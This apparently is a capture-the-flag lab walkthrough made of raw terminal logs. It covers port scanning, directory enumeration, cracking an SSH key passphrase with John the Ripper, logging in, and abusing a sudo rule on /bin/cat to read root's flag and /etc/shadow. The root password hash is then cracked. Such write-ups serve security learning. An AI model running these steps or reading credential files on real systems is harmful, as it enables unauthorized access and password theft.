 NMAP SCANNING

        kali㉿kali)-[~]
        └─$ nmap -A 10.10.161.177
        Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 06:11 EDT
        Nmap scan report for 10.10.161.177
        Host is up (0.22s latency).
        Not shown: 998 closed ports
        PORT   STATE SERVICE VERSION
        22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
        |   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
        |_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
        80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
        |_http-server-header: Apache/2.4.29 (Ubuntu)
        |_http-title: Apache2 Ubuntu Default Page: It works
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 56.77 second

GOBUSTER DIRECRORY ENUMERATION
        ┌──(kali㉿kali)-[~]
        └─$ gobuster dir -u  http://10.10.161.177/ -w /usr/share/wordlists/dirb/common.txt
        ===============================================================
        Gobuster v3.1.0
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        [+] Url:                     http://10.10.161.177/
        [+] Method:                  GET
        [+] Threads:                 10
        [+] Wordlist:                /usr/share/wordlists/dirb/common.txt
        [+] Negative Status codes:   404
        [+] User Agent:              gobuster/3.1.0
        [+] Timeout:                 10s
        ===============================================================
        2021/10/16 06:16:22 Starting gobuster in directory enumeration mode
        ===============================================================
        /.hta                 (Status: 403) [Size: 278]
        /.htpasswd            (Status: 403) [Size: 278]
        /.htaccess            (Status: 403) [Size: 278]
        /admin                (Status: 301) [Size: 314] [--> http://10.10.161.177/admin/]
        /index.html           (Status: 200) [Size: 10918]                                
        /server-status        (Status: 403) [Size: 278]                                  
                                                                                        
        ===============================================================
        2021/10/16 06:18:22 Finished
        =============================

PRIVILEGE ESCALATION & GETTING THE SHELL
        ─(kali㉿kali)-[~/Documents]
        └─$ john --wordlist=/home/kali/Documents/rockyou.txt johnid

        Using default input encoding: UTF-8
        Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
        Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
        Cost 2 (iteration count) is 1 for all loaded hashes
        Will run 4 OpenMP threads
        Note: This format may emit false positives, so it will keep trying even after
        finding a possible candidate.
        Press 'q' or Ctrl-C to abort, almost any other key for status
        rockinroll       (rsaid)
        Warning: Only 2 candidates left, minimum 4 needed for performance.
        1g 0:00:00:11 DONE (2021-10-16 05:36) 0.08547g/s 1225Kp/s 1225Kc/s 1225KC/sa6_123..*7¡Vamos!
        Session completed



        Login to john via ssh using the passphares cracked

        notice it keeps denying the password,, change the mode of the rsa file
        ──(kali㉿kali)-[~/Documents]
        └─$ chmod 600 rsaid  


        ──(kali㉿kali)-[~/Documents]
        └─$ ssh -i rsaid john@10.10.161.177                                           1 ⚙
        @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
        @         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
        @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
        Permissions 0644 for 'rsaid' are too open.
        It is required that your private key files are NOT accessible by others.
        This private key will be ignored.
        Load key "rsaid": bad permissions
        john@10.10.161.177's password: 
        Permission denied, please try again.
        john@10.10.161.177's password: 
        Permission denied, please try again.
        john@10.10.161.177's password: 
        john@10.10.161.177: Permission denied (publickey,password).
                                                                                        
        ┌──(kali㉿kali)-[~/Documents]
        └─$ ssh -i rsaid john@10.10.161.177                                     255 ⨯ 1 ⚙
        Enter passphrase for key 'rsaid': 
        Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

        * Documentation:  https://help.ubuntu.com
        * Management:     https://landscape.canonical.com
        * Support:        https://ubuntu.com/advantage

        System information as of Sat Oct 16 09:44:46 UTC 2021

        System load:  0.0                Processes:           101
        Usage of /:   25.7% of 19.56GB   Users logged in:     0
        Memory usage: 38%                IP address for eth0: 10.10.161.177
        Swap usage:   0%


        63 packages can be updated.
        0 updates are security updates.


        Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
        john@bruteit:~$ whoami
        john
        john@bruteit:~$ ls
        user.txt
        john@bruteit:~$ cat user.txt
                THM{a_password_is_not_a_barrier}
        john@bruteit:~$ sudo -l
        Matching Defaults entries for john on bruteit:
            env_reset, mail_badpass,
            secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

        User john may run the following commands on bruteit:
        (root) NOPASSWD: /bin/cat

        john@bruteit:~$ sudo /bin/cat /root/root.txt
                THM{pr1v1l3g3_3sc4l4t10n}


        john@bruteit:~$ sudo /bin/cat /etc/shadow
        root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
        ......................................
        thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
        sshd:*:18489:0:99999:7:::
        john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::



        Copy the root hash to a text file
        ┌──(kali㉿kali)-[~/Documents]
        └─$ nano root.txt  

        ┌──(kali㉿kali)-[~/Documents]
        └─$ sudo john root.txt --wordlist=/home/kali/Documents/rockyou.txt
        [sudo] password for kali: 
        Created directory: /root/.john
        Using default input encoding: UTF-8
        Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
        Cost 1 (iteration count) is 5000 for all loaded hashes
        Will run 4 OpenMP threads
        Press 'q' or Ctrl-C to abort, almost any other key for status
        football         (root)
        1g 0:00:00:00 DONE (2021-10-16 06:31) 3.225g/s 825.8p/s 825.8c/s 825.8C/s 123456..freedom
        Use the "--show" option to display all of the cracked passwords reliably
        Session completed
                                    